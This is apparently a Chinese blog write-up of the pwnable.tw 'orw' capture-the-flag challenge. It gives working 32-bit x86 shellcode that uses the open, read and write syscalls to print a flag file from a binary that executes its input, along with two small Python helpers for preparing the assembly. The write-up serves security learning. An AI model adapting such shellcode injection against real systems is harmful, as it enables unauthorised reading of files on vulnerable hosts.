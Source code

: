 ```yaml
---
title: pwnable.tw 0x1 orw writeup
date: 2019-02-13 20:56:55
tags: [pwn]
categories: ["二进制安全"]
---
```


> 地址：[https://pwnable.tw/challenge/#2](https://pwnable.tw/challenge/#2)

<!--more-->

## 分析

扔到 Linux 虚拟机里执行一下，提示：`Give my your shellcode:`（应该是 "Give me your shellcode"），结合题目提示：

```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.
```

所以解题思路应该是用编写 shellcode，利用 `open`、`read`、`write` 这三个 syscall 读取 `/home/orw/flag` 中的内容。
看反汇编内容也印证了这一猜想：在获取用户输入之后，直接把输入当作指令执行了
![-w1097](https://i.loli.net/2019/02/13/5c6413f403283.jpg)


## PWN

下面开始编写 shellcode。先从 C 语言的角度考虑如何实现，伪代码如下：

```c
int fd = open("/home/orw/flag", 0, 0); // 打开文件
read(fd, buffer, count);  // 读取内容
write(1, buffer, count);  // 写到 stdout
```

所以 参考 [Linux System Call Table](https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls32.html) 整理成汇编代码：

```asm
; open
xor ecx, ecx     ; ecx = 0
xor edx, edx     ; edx = 0
push ecx         ; 字符串终止符
push 0x67616c66  ; "flag"
push 0x2f2f7772  ; "rw//"
push 0x6f2f2f65  ; "e//o"
push 0x6d6f682f  ; "/hom"
mov ebx, esp     ; ebx = esp, 文件路径
mov eax, 0x5     ; syscall number 5, sys_open
int 0x80         ; call

; read
mov ebx, eax  ; fd
mov ecx, esp  ; buffer
mov edx, 0x30 ; size
mov eax, 0x3  ; read
int 0x80      ; call

; write
mov ebx, 0x1  ; stdout
mov eax, 0x4  ; write
int 0x80      ; call
```

##  附录1
鉴于 `pwntools` 中 `asm()` 方法不支持注释，而我又比较喜欢写注释，所以写了一个简单的 python 函数来处理汇编代码中的注释：

```python
import re

re_pure_asm = re.compile('^(.+?)(?=;)')

def pure_asm(string):
    lines = []
    for line in string.splitlines():
        result = re_pure_asm.findall(line)
        if len(result) > 0:
            lines.append(result[0].strip())
    return '\n'.join(lines)
```

## 附录2
为了比较方便的把 `flag` 这样的字符串转换成 `0x67616c66` 这样的 16进制小端数值，也写了一个简单的 python 方法：

```python
def convert_str_to_hex(string):
    parts = []
    for ch in string:
        parts.insert(0, format(ord(ch), 'x'))
    return '0x' + ''.join(parts)
```